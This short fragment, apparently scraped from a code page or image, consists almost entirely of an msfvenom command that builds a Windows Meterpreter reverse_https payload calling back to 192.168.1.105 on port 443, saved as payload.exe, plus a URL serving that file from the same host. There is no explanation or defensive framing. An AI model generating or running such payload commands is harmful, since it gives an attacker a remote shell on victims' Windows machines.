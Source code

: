 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe
http://192.168.1.105:8080/payload.exe
